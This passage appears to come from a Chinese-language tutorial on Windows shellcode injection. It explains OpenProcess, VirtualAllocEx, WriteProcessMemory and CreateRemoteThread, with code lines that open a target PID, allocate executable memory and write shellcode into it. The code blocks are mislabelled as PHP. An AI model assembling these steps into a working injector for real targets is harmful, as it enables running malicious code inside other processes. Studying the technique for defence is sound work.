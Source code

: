 -   dwDesiredAccess：一个或多个进程访问权限
-   bInheritHandle：是否继承句柄
-   dwProcessId：进程的标识符

```php
printf("Injecting to PID: %i", atoi(argv[1]));
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```

2、VirtualAllocEx

```php
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

-   hProcess：进程的句柄。该函数在该进程的虚拟地址空间内分配内存，句柄必须具有**PROCESS\_VM\_OPERATION**访问权限
-   lpAddress：保留页面的内存地址；一般用 NULL 自动分配
-   dwSize：要分配的内存区域的大小，以字节为单位
-   flAllocationType：内存分配的类型
-   flProtect：该内存的初始保护属性

```php
remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE)
```

3、WriteProcessMemory

```php
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

-   hProcess：要修改的进程内存的句柄。句柄必须拥有对进程的 PROCESS\_VM\_WRITE 和 PROCESS\_VM\_OPERATION 访问权限
-   lpBaseAddress：要写的内存首地址
-   lpBuffer：指向要写的数据的指针
-   nSize：要写入的字节数
-   lpNumberOfBytesWritten：指向一个变量的指针，该变量接收传输到指定进程的字节数。该参数是可选的。如果*lpNumberOfBytesWritten*存在**空**，则忽略该参数。

```php
WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```

4、CreateRemoteThread

```php
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

